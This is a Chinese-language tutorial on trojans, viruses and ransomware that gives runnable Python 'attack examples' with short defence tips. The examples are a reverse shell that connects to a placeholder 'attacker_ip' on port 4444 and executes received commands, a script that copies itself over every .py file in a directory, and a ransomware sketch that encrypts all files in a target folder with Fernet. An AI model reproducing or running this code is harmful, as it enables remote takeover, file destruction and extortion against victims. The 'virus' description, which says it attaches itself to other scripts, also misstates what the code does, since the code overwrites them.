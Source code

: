 ### 木馬、病毒與勒索軟件

木馬（Trojan）、病毒（Virus）與勒索軟件（Ransomware）都是常見的惡意軟件類型，它們各自有不同的攻擊方式和目的。以下是對這些惡意軟件的簡要介紹和如何利用 Python 實現一些基本的攻擊範例。

#### 1. **木馬（Trojan）**

木馬是一種假裝成正常軟件的惡意程式，通常會在用戶不知情的情況下執行有害操作，如竊取敏感數據、安裝其他惡意軟件、或允許遠程控制系統。木馬不同於病毒，它不會自我複製，而是依賴於用戶的交互或社會工程學手段來散播。

**木馬的例子：**
- 一個伺服器上的遠程控制木馬，它能讓攻擊者獲取完全的系統控制權，並執行命令或竊取數據。

#### 2. **病毒（Virus）**

病毒是一種能夠自我複製並將自己傳播到其他程序或系統的惡意程式。它通常在受感染的文件或程序中植入惡意代碼，並且當該程序運行時，病毒會激活並傳播到其他程序或系統中。

**病毒的例子：**
- 感染可執行文件，並在每次執行時觸發惡意行為。

#### 3. **勒索軟件（Ransomware）**

勒索軟件是一種能夠加密受害者文件並要求贖金的惡意軟件。攻擊者通常會要求受害者支付贖金（通常以比特幣等加密貨幣的形式）以換取解密密鑰，從而恢復文件的可用性。

**勒索軟件的例子：**
- 加密文檔，並顯示一個要求支付贖金的通知。

### Python 實現攻擊範例

以下是一些基於木馬、病毒和勒索軟件概念的簡單 Python 程式碼範例：

#### 1. **木馬示例：反向連接木馬（Reverse Shell）**

這是一個基礎的 Python 木馬範例，它會在受害機器上啟動一個反向連接，並讓攻擊者遠程控制該機器。

```python
import socket
import subprocess

# 設置目標IP與端口
target_ip = "attacker_ip"
target_port = 4444

# 建立反向連接
sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
sock.connect((target_ip, target_port))

# 接收命令並執行
while True:
    command = sock.recv(1024).decode('utf-8')
    if command.lower() == 'exit':
        break
    output = subprocess.run(command, shell=True, capture_output=True)
    sock.send(output.stdout + output.stderr)

sock.close()
```

- **用途：** 攻擊者在受害機器上運行此木馬後，會向指定的 `attacker_ip` 發起連接，並且攻擊者可以通過該連接執行操作系統命令。
- **防範：** 要防止這類攻擊，可以使用防火牆阻止不必要的出站連接，並且加強系統的防病毒掃描。

#### 2. **病毒示例：自我複製病毒**

這是一個簡單的 Python 例子，該病毒會自我複製並將自己附加到其他 Python 腳本中。

```python
import os
import shutil

# 目標目錄
target_directory = "/path/to/target/directory"

# 取得當前文件的路徑
current_file = os.path.abspath(__file__)

# 複製病毒到目標目錄
for filename in os.listdir(target_directory):
    target_file = os.path.join(target_directory, filename)
    if filename.endswith('.py') and target_file != current_file:
        shutil.copy(current_file, target_file)
```

- **用途：** 這段代碼會自動搜索指定目錄中的 Python 文件，並將自己複製到這些文件中。當這些文件被執行時，病毒會再次複製自己。
- **防範：** 使用防病毒軟件並設置適當的文件權限，以防止這類腳本的執行。

#### 3. **勒索軟件示例：簡單的加密勒索**

這是一個基礎的勒索軟件範例，它將加密指定目錄中的文件，並要求受害者支付贖金才能解密文件。

```python
from cryptography.fernet import Fernet
import os

# 生成密鑰
key = Fernet.generate_key()
cipher_suite = Fernet(key)

# 目標目錄
target_directory = "/path/to/target/directory"

# 加密所有文件
for filename in os.listdir(target_directory):
    filepath = os.path.join(target_directory, filename)
    if os.path.isfile(filepath):
        with open(filepath, 'rb') as file:
            file_data = file.read()
        encrypted_data = cipher_suite.encrypt(file_data)
        with open(filepath, 'wb') as file:
            file.write(encrypted_data)

# 保存密鑰（在實際攻擊中，這會被攻擊者保存，並作為勒索金的條件）
with open('secret.key', 'wb') as key_file:
    key_file.write(key)
```

- **用途：** 這段代碼會加密指定目錄中的所有文件，並將加密的文件寫回磁碟。攻擊者可以要求受害者支付贖金，然後提供解密密鑰來恢復文件。
- **防範：** 應用防病毒軟件並定期備份數據。對文件進行加密防範，並限制使用者在系統中的權限。

### 防範木馬、病毒與勒索軟件

1. **防範木馬：**
   - 使用防火牆來限制不必要的入站和出站連接。
   - 保持操作系統和應用程序的最新安全補丁。
   - 使用反病毒軟件，定期掃描系統。

2. **防範病毒：**
   - 設置適當的文件權限，防止文件的未經授權修改。
   - 定期備份重要數據，以防數據丟失。
   - 加強對可執行文件的管理，避免來自不信任來源的文件執行。

3. **防範勒索軟件：**
   - 使用強密碼和多因素身份驗證，防止勒索軟件通過弱密碼入侵。
   - 加密敏感數據，並保護加密金鑰。
   - 設置定期的數據備份，並確保備份文件不被勒索軟件加密。

### 結論

木馬、病毒與勒索軟件是惡意軟件中的三種常見形式，每一種都有不同的攻擊方式。防範這些威脅需要強化系統的安全性，包括使用防火牆、反病毒軟件、定期備份數據、限制文件權限等措施。
